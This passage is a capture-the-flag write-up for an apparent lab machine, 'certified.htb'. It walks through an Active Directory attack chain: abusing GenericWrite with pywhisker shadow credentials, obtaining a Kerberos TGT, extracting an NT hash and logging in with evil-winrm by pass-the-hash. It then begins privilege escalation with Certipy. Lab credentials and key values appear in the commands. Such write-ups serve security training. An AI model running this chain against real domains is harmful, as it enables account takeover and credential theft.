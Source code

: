 {{< badge >}}
Definition
{{< /badge >}}
- The bottom line of `GenericWrite` is --> Generic Write Abuse is a type of attack in Active Directory (AD) where an attacker with GenericWrite permissions over an object (such as a user, group, or computer) can modify certain attributes of that object to escalate privileges, maintain persistence, or execute malicious commands.

- I can also change the password of the account but for me using Shadow Credentials Technique is optimal

{{< badge >}}
Definition
{{< /badge >}}
- Shadow Credentials Attack is a technique used by attackers to gain persistent access to an Active Directory (AD) environment by manipulating key authentication data. It involves exploiting the way AD handles alternative credentials such as key pairs or certificates associated with user or computer accounts.

{{< details summary="View links" >}} [Article-1](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials) <br> [Article-2](https://www.hackingarticles.in/shadow-credentials-attack/) {{< /details >}}

- Performing shadow credential attack:
```bash
pywhisker -d certified.htb -u judith.mader -p judith09 --target management_svc --action add
```
![Pasted image 20250101213236.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101213236.png?raw=true)
- Getting the TGT
```bash
python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx 2QCAj1n0.pfx -pfx-pass AxYpGIRkSbtAKz4T0aJ4 management_svc.ccache
```
![Pasted image 20250101213528.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101213528.png?raw=true)
- Using the TGT cache to get the NT hash
```bash
KRB5CCNAME=../management_svc.ccache python3 getnthash.py certified.htb/management_svc -key 841420e74637606f21b9eaaec6a8bfd2cc98eff7fb5167daddb131f3127a96b0
```
![Pasted image 20250101213938.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101213938.png?raw=true)
- Now that I got the hash passing it to login in EvilwinRm as user `management_svc`
```bash
evil-winrm -u management_svc -H a091c1832bcdd46<SNIP> -i certified.htb
```
- Got access as user `management_svc`
- Got the {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20250101214048.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101214048.png?raw=true)
![We-got-more](https://media1.tenor.com/m/LgfEAwXpSCcAAAAC/job-aint-done-yet-jidon-adams.gif)

## Privilege Escalation
- As the machine name suggests, Lets enumerate AD CS using [certipy](https://github.com/ly4k/Certipy) tool
- In case if you haven't heard about this tool, [Certipy](https://github.com/ly4k/Certipy) is an offensive tool for enumerating and abusing Active Directory Certificate Services(AD CS). 
- Certipy can be easily installed using python
```bash
pip3 install certipy-ad
```
- or using pipx
```bash
pipx install certipy-ad
```
- On using certipy I came to know that user `ca_operators` has esc9 vulnerability
```bash
```